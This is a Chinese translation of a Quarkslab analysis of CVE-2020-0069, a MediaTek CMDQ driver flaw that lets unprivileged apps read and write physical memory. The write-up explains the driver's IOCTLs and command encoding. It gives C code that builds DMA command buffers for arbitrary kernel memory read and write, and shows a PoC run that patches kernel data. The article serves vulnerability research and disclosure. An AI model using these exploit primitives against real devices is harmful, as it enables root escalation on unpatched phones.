

# 曾在野外稳定利用的严重漏洞：MediaTek驱动程序任意内存读写漏洞分析


                                阅读量   
                                **613964**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者quarkslab，文章来源：blog.quarkslab.com
                                <br>原文地址：[https://blog.quarkslab.com/cve-2020-0069-autopsy-of-the-most-stable-mediatek-rootkit.html](https://blog.quarkslab.com/cve-2020-0069-autopsy-of-the-most-stable-mediatek-rootkit.html)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/201908/t01d1a395f024cb320e.jpg)


## 前言

2020年3月，Google修复了一个严重的漏洞，该漏洞影响许多基于MediaTek（联发科技）的设备。该漏洞在2019年4月被提交至厂商，厂商花费了10个月之久才实现修复，而在等待修复期间在野外被利用。在本文中，我们将对该漏洞进行详细分析，并展示如何利用该漏洞来实现内核内存的读写。<br>
该漏洞允许没有权限的本地攻击者读写系统内存，从而导致特权提升。甚至，还有一个名为mtksu的漏洞利用二进制文件，可以导致众多受到漏洞影响的设备提升至root权限，该漏洞利用方式是在2019年开发的。在撰写本文时，关于该漏洞仅有很少的公开信息。因此，我们决定对这一漏洞开展深入的研究。


## 关于CVE-2020-0069

根据MediaTek的官方公告，该漏洞导致本地攻击者可以实现对物理内存地址的任意读取或写入，从而实现特权提升。受漏洞影响的模块是MediaTek Command Queue驱动程序（CMDQ驱动程序）。使用驱动程序上的IOCTL，攻击者将可以分配DMA（直接内存访问）缓冲区，并向DMA硬件发送命令，以使其能够读写物理地址。<br>
需要说明的是，直接内存访问是一项可以允许特定硬件直接从主内存（RAM）发送或接收数据的功能，其目的是通过允许较大内存访问的方式来占用较少的CPU资源完成任务，从而加快系统速度。该驱动程序似乎允许从用户区域与DMA控制器进行通信，以实现与媒体或显示相关的任务。<br>
该漏洞已经影响了超过10个SoC（片上系统，System on Chip），从而影响许多的设备。我们已经发现，可以在小米红米6A设备上（使用联发科技MT6762M片上系统）利用该漏洞。


## CMDQ驱动程序

目前在互联网上，可以找到这个驱动程序多个版本的源代码。在我们此次研究过程中，我们主要使用了小米红米6A开源内核。该驱动程序的实现可以在drivers/misc/mediatek/cmdq找到。根据SoC的不同，关联的设备驱动程序可以是/dev/mtk-cmdq或/proc/mtk-cmdq，并且在未经过任何允许的情况下可以被任意应用程序利用。<br>
如前所述，可以使用IOCTL syscall由用户区域控制驱动程序。

```
#define CMDQ_IOCTL_EXEC_COMMAND _IOW(CMDQ_IOCTL_MAGIC_NUMBER, 3, 
    struct cmdqCommandStruct)
#define CMDQ_IOCTL_QUERY_USAGE  _IOW(CMDQ_IOCTL_MAGIC_NUMBER, 4, 
    struct cmdqUsageInfoStruct)

/*  */
/* Async operations */
/*  */

#define CMDQ_IOCTL_ASYNC_JOB_EXEC _IOW(CMDQ_IOCTL_MAGIC_NUMBER, 5, 
    struct cmdqJobStruct)
#define CMDQ_IOCTL_ASYNC_JOB_WAIT_AND_CLOSE _IOR(CMDQ_IOCTL_MAGIC_NUMBER, 6, 
    struct cmdqJobResultStruct)

#define CMDQ_IOCTL_ALLOC_WRITE_ADDRESS _IOW(CMDQ_IOCTL_MAGIC_NUMBER, 7, 
    struct cmdqWriteAddressStruct)
#define CMDQ_IOCTL_FREE_WRITE_ADDRESS _IOW(CMDQ_IOCTL_MAGIC_NUMBER, 8, 
    struct cmdqWriteAddressStruct)
#define CMDQ_IOCTL_READ_ADDRESS_VALUE _IOW(CMDQ_IOCTL_MAGIC_NUMBER, 9, 
    struct cmdqReadAddressStruct)
```

根据可用的操作，我们将主要研究以下内容：<br>
1、CMDQ_IOCTL_ALLOC_WRITE_ADDRESS用于分配DMA缓冲区，并以结构cmdqWriteAddressStruct作为参数；<br>
2、CMDQ_IOCTL_FREE_WRITE_ADDRESS用于释放先前分配的DMA缓冲区；<br>
3、CMDQ_IOCTL_EXEC_COMMAND允许将命令缓冲区发送到DMA控制器，并使用结构cmdqCommandStruct作为参数；<br>
4、CMDQ_IOCTL_READ_ADDRESS_VALUE可用于读取DMA缓冲区值。

### <a class="reference-link" name="%E5%88%86%E9%85%8DDMA%E7%BC%93%E5%86%B2%E5%8C%BA"></a>分配DMA缓冲区

在调用CMDQ_IOCTL_ALLOC_WRITE_ADDRESS时，我们提供了一个cmdqWriteAddressStruct结构，该结构在字段计数中包含请求的缓冲区大小。我们在startPA字段中得到了一个物理地址，但无法直接从用户区域访问该地址。要访问这一内存区域，我们可以使用CMDQ_IOCTL_EXEC_COMMAND。<br>
通过从先前的分配中调用带有结构cmdqWriteAddressStruct的CMDQ_IOCTL_FREE_WRITE_ADDRESS，可以释放DMA缓冲区。

### <a class="reference-link" name="%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4"></a>执行命令

CMDQ_IOCTL_EXEC_COMMAND使用结构cmdqCommandStruct作为参数。

```
struct cmdqCommandStruct {
 [...]
 /* [IN] pointer to instruction buffer. Use 64-bit for compatibility. */
 /* This must point to an 64-bit aligned u32 array */
 cmdqU32Ptr_t pVABase;
 /* [IN] size of instruction buffer, in bytes. */
 u32 blockSize;
 /* [IN] request to read register values at the end of command */
 struct cmdqReadRegStruct regRequest;
 /* [OUT] register values of regRequest */
 struct cmdqRegValueStruct regValue;
 /* [IN/OUT] physical addresses to read value */
 struct cmdqReadAddressStruct readAddress;
 [...]
```

如前所述，这个IOCTL允许发送将要由DMA控制器执行的命令。这些命令位于用户区域缓冲区中，其地址位于字段pVABase，其大小位于字段blockSize中。<br>
命令执行完成后，命令结构的readAddress字段可以用于从DMA缓冲区中读取值。字段readAddress.dmaAddresses指向一个用户区域缓冲区，其中包含来自我们的DMA缓冲区的地址。其大小由字段readAddress.count引用。内核将读取所有地址，并将这些值放置在由readAddress.values字段指向的用户区域缓冲区中。<br>
也可以使用IOCTL命令CMDQ_IOCTL_READ_ADDRESS_VALUE来读取DMA缓冲区。

### <a class="reference-link" name="%E5%91%BD%E4%BB%A4%E8%AF%B4%E6%98%8E"></a>命令说明

命令由两个32位字组成，并使用命令代码进行标识。

```
enum cmdq_code {
 CMDQ_CODE_READ  = 0x01,
 CMDQ_CODE_MASK = 0x02,
 CMDQ_CODE_MOVE = 0x02,
 CMDQ_CODE_WRITE = 0x04,
 CMDQ_CODE_POLL  = 0x08,
 CMDQ_CODE_JUMP = 0x10,
 CMDQ_CODE_WFE = 0x20,
 CMDQ_CODE_EOC = 0x40,
 [...]
```

下面是我们将要使用的一些命令的描述。<br>**CMDQ_CODE_WRITE和CMDQ_CODE_READ**

[](https://p4.ssl.qhimg.com/t01d148a00fc89b205c.png)

Write命令用于将数据寄存器中的值写入地址寄存器中的地址。Read命令读取地址寄存器所指向地址的值，并将结果放入数据寄存器中。<br>
根据可选位（图中的TYPE A和TYPE B），可以根据位于REG NUMBER字段中名为subsysID的值和位于VALUE字段中的偏移量来计算地址。随后，将使用内核DTS中引用的实际物理地址替换subsysID。<br>**CMDQ_CODE_MOVE**

[](https://p2.ssl.qhimg.com/t014d00b13b38a862f1.png)

该命令允许将一个值（最多48位）放入寄存器中。该值可以放置在数据寄存器或地址寄存器中，并且可以是任何数据或地址。而在这一过程中，并未对地址进行检查，这可能将导致严重的问题。<br>**CMDQ_CODE_WFE**

[](https://p3.ssl.qhimg.com/t0149767faff70549d7.png)

WFE代表等待事件（Wait For Event）并清除。根据我们的理解，我们可以使用它来阻止某些寄存器的使用，就如同我们使用互斥锁一样。与该命令一起使用的事件标志与我们将在命令缓冲区中使用的一种寄存器相关联。例如，对于寄存器CMDQ_DATA_REG_DEBUG（R7）和CMDQ_DATA_REG_DEBUG_DST（P11），必须使用事件（或在源代码中调用的令牌）CMDQ_SYNC_TOKEN_GPR_SET_4。我们需要在每个命令缓冲区的开头和结尾使用WFE命令。<br>**CMDQ_CODE_EOC**<br>
EOC表示命令结束。必须将其放置在CMDQ_CODE_WFE命令之后每个命令缓冲区的末尾，以指示命令列表的结束。其中似乎包含许多标志，但是在我们所使用的场景中，我们似乎只需要设置IRQ标志中的内容即可。<br>**CMDQ_CODE_JUMP**<br>
根据源代码的评论区，它允许使用偏移量JUMP到命令缓冲区。在命令CMDQ_CODE_JUMP之后，我们在每个命令缓冲区的末尾使用该命令，将会始终跳转到偏移量0x8，也就是上一条命令。我们的理论是，预读取（Prefetch）机制是在DMA控制器中实现的，并且该命令确保将CMDQ_CODE_EOC命令考虑在内。

### <a class="reference-link" name="%E5%AF%84%E5%AD%98%E5%99%A8"></a>寄存器

在命令描述中，我们提到了寄存器，一共有两种寄存器，分别是：<br>
由32位组成的值寄存器（从R0到R15）；<br>
由64位组成的地址寄存器（从P0到P7）。

```
enum cmdq_gpr_reg {
    /* Value Reg, we use 32-bit */
    /* Address Reg, we use 64-bit */
    /* Note that R0-R15 and P0-P7 actually share same memory */
    /* and R1 cannot be used. */

    CMDQ_DATA_REG_JPEG = 0x00,  /* R0 */
    CMDQ_DATA_REG_JPEG_DST = 0x11,  /* P1 */

    CMDQ_DATA_REG_PQ_COLOR = 0x04,  /* R4 */
    CMDQ_DATA_REG_PQ_COLOR_DST = 0x13,  /* P3 */

    CMDQ_DATA_REG_2D_SHARPNESS_0 = 0x05,    /* R5 */
    CMDQ_DATA_REG_2D_SHARPNESS_0_DST = 0x14,    /* P4 */

    CMDQ_DATA_REG_2D_SHARPNESS_1 = 0x0a,    /* R10 */
    CMDQ_DATA_REG_2D_SHARPNESS_1_DST = 0x16,    /* P6 */

    CMDQ_DATA_REG_DEBUG = 0x0b, /* R11 */
    CMDQ_DATA_REG_DEBUG_DST = 0x17, /* P7 */
```

## 实现驱动程序漏洞利用

至此，我们已经对驱动程序的工作原理有了更深入的了解，接下来，我们将分析如何实现基本的内存读写。

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E5%86%99%E5%85%A5"></a>内存写入

要在内存中写入32位值，我们可以使用以下命令：<br>
1、将32位值移动到值寄存器中；<br>
2、将想要将其值放入地址寄存器的地址，移动到该地址；<br>
3、将值寄存器中的值，写入到地址寄存器中的地址。

```
// move value into CMDQ_DATA_REG_DEBUG
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = value;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

// move pa_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)pa_address;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

//write CMDQ_DATA_REG_DEBUG into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = CMDQ_DATA_REG_DEBUG;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_WRITE &lt;&lt; 24 | 3 &lt;&lt; 22
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16;
command-&gt;blockSize += 8;
```

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E8%AF%BB%E5%8F%96"></a>内存读取

要在内存中读取32位值，我们可以使用以下四个命令：<br>
1、将要读取的地址（pa_address）移动到地址寄存器中；<br>
2、将地址寄存器指向的地址处的数据读取到值寄存器中；<br>
3、将DMA缓冲区地址（dma_address）移动到地址寄存器中；<br>
4、将值寄存器中的数据写入地址寄存器中的地址。<br>
我们需要将这些命令放置在结构cmdqCommandStruct的pVABase字段中先前分配的缓冲区里。命令缓冲区的大小必须放置在字段blockSize中。

```
// move pa_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)pa_address;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

// read value at CMDQ_DATA_REG_DEBUG_DST into CMDQ_DATA_REG_DEBUG
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = CMDQ_DATA_REG_DEBUG;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_READ &lt;&lt; 24 | 3 &lt;&lt; 22
                                                  | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16;
command-&gt;blockSize += 8;

// move dma_address into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = (uint32_t)dma_address;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

//write CMDQ_DATA_REG_DEBUG into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = CMDQ_DATA_REG_DEBUG;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_WRITE &lt;&lt; 24 | 3 &lt;&lt; 22
                                                  | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16;
```

然后，我们通过填充readAddress字段，来通知驱动程序我们需要读取DMA缓冲区中的值：

```
*(uint32_t*)((uint32_t)command-&gt;readAddress.dmaAddresses) = dma_address;
command-&gt;readAddress.count = offset;
```

该结果将写入到readAddress.values中，该地址必须事先分配。

### <a class="reference-link" name="%E7%AE%80%E5%8D%95%E7%9A%84PoC"></a>简单的PoC

要确定内核使用的物理地址，可以使用设备的/proc/iomem（需要root权限）。

```
# cat /proc/iomem
[...]
40000000-545fffff : System RAM
  40008000-415fffff : Kernel code
  41800000-41d669b3 : Kernel data
[...]
```

这些地址是静态配置的，在每次引导启动时都会保持不变。<br>
PoC由两个程序组成：<br>
1、一个允许对基础内存进行读写的C程序；<br>
2、一个Shell脚本，该脚本调用上一个程序，在内核数据存储器中搜索“Linux”字符串的第一个匹配项，然后将其替换为“minix”。

```
$ uname -a
Linux localhost 4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
$ sh poc.sh
[+] Found Linux string at 0x4180bc00
[+] Found Linux string at 0x4180bea0
[+] Write the patched value
$ uname -a
minix  4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
```

这样的PoC非常有用，我们现在已经能够读写内核数据存储器。并且，我们已经可以对任何其他系统内存区域执行相同的操作，从而绕过系统中已有的权限和保护。因此，除了进行简单的尝试之外，我们还可以利用这个漏洞来修改系统内存中的任何地方，例如内核代码和数据，以实现特权提升。<br>
二进制mtk-su使用该漏洞，在内核内存中执行了很多有趣的工作，从而实现了以root身份执行命令。在本文中，我们将不会提供有关如何使用mtk-su这些内核漏洞利用方式的更多详细信息。但是，作为安全研究人员，可以首先尝试分析我们编写的小型追踪库。启动mtk-su时必须预先加载它，并且它将跟踪CMDQ驱动程序的某些IOCTL，例如发送给驱动程序的命令。

```
$ mkdir mtk-su
$ LD_PRELOAD=./syscall-hook.so ./mtk-su
alloc failed
alloc count=400 startPA=0x5a733000
uncatched ioctl 40e07803
exec command (num 0) ( blockSize=8040, readAddress.count=0 ) dumped into cmd-0
exec command (num 1) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-1
[...]
$ cat mtk-su/cmd-1
WFE to_wait=1, wait=1, to_update=1, update=0, event=1da
MOVE 40928000 into reg 17
READ  address reg 17, data reg b
[...]
```

上述PoC和追踪库可以在Quarkslab的GitHub上找到：CVE-2020-0069_poc。


## 总结

这个漏洞危害程度较大，基本上可以允许任意应用程序读取或写入所有系统内存，其中也包括内核内存。我们可能想要知道为什么每个应用程序都需要访问该设备驱动程序，而不仅仅是HAL（硬件抽象层）和与媒体相关的进程才能访问。至少需要进行一个额外的步骤，才能从不具有特权的应用程序中获取root用户权限。<br>
根据Fire HD 8 Linux内核的源代码，目前已经通过解析命令缓冲区中的所有命令来验证每个命令以及所使用的地址和寄存器，以此来修复漏洞。例如，这样就只能允许将DMA缓冲区中的地址移动到地址寄存器。<br>
由于我们并非该漏洞的发现者，因此我们没有与MediaTek讨论过这一漏洞的详细细节。但是，从技术角度来看，我们认为修复这一漏洞的工作量并不需要花费这么长的时间。根据XDA开发者发表的文章，MediaTek自从2019年5月以来就开始进行修复，但花了10个月的时间才在最终用户设备中对该漏洞进行广泛修复。这是Android生态系统中补丁程序管理复杂性的一个很好的例子，所有的参与者（包括SoC制造商、OEM、ODM）都需要共同行动，才能在最终用户的设备上实现漏洞修复。最后，似乎只有法律层面才能迫使所有这些参与者积极修复漏洞。<br>
现在，我们可能想知道，是否所有嵌入了MediaTek SoC并且没有集成Android许可协议的AOSP OS版本的设备是否应用了这一漏洞修复，这部分厂商没有法律义务来集成此漏洞修复。

## 参考文章

[1] [https://source.android.com/security/bulletin/2020-03-01](https://source.android.com/security/bulletin/2020-03-01)<br>
[2] [https://forum.xda-developers.com/android/development/amazing-temp-root-mediatek-armv8-t3922213](https://forum.xda-developers.com/android/development/amazing-temp-root-mediatek-armv8-t3922213)<br>
[3] [https://www.xda-developers.com/files/2020/03/CVE-2020-0069.png](https://www.xda-developers.com/files/2020/03/CVE-2020-0069.png)<br>
[4] [https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/cactus-p-oss](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/cactus-p-oss)<br>
[5] [https://www.amazon.com/gp/help/customer/display.html?tag=androidpolice-20&amp;nodeId=200203720](https://www.amazon.com/gp/help/customer/display.html?tag=androidpolice-20&amp;nodeId=200203720)<br>
[6] [https://www.xda-developers.com/mediatek-su-rootkit-exploit/](https://www.xda-developers.com/mediatek-su-rootkit-exploit/)<a class="reference-link" name="%E8%87%B4%E8%B0%A2"></a>
